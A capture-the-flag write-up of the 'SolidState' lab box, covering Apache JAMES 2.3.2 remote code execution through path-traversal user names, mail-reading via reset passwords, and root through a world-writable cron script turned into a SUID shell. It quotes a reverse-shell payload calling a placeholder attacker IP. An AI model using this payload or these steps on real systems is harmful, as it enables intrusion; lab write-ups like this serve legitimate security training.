

# SolidState

## Summary

**Vulnerability Exploited:** Apache JAMES Sever 2.3.2 Authenticated User Remote Code Execution (CVE-2015-7611 / EDB 35513)

**Vulnerability Explanation:** JAMES allows users to be created with names that act as directory traversals. By creating a user with a name traversing to /etc/bash\_completion.d and sending a specially crafted email, an attacker can cause arbitrary code to be executed when a user logs in.

**Privilege Escalation Vulnerability:** /opt/tmp.py file misconfiguration

## Penetration

### User Flag

We see that Apache JAMES Server 2.3.2 is running. This server manages mail services such as SMTP and pop3\. There is a known remote code execution vulnerability for this version.

We can run the EDB 35513 exploit (modifying the payload to to 'bash -i \>& /dev/tcp/\<attacker ip\>/443 0\>&1'), but our payload won't actually execute until someone logs in via SSH.

In the meantime, let's explore the JAMES admin interface ourselves.

Resetting every user's password is not advisable during a real engagement, but now we can read all mail on the pop3 server. We find a plaintext password for mindy in one of her emails.

When we SSH as mindy, we launch the shell we injected with our earlier exploit. It may seem like we didn't gain much from using our exploit, but since mindy has a restricted login shell, this is actually the easiest way to bypass restrictions.

### Root Flag

We find a misconfigured file /opt/tmp.py. Although the script runs every few minutes as root, everyone has permission to edit it.

We can replace the script with our own to create a SUID version of /bin/sh.

After the script runs again in the few minutes, we get root by executing the malicious copy of sh.

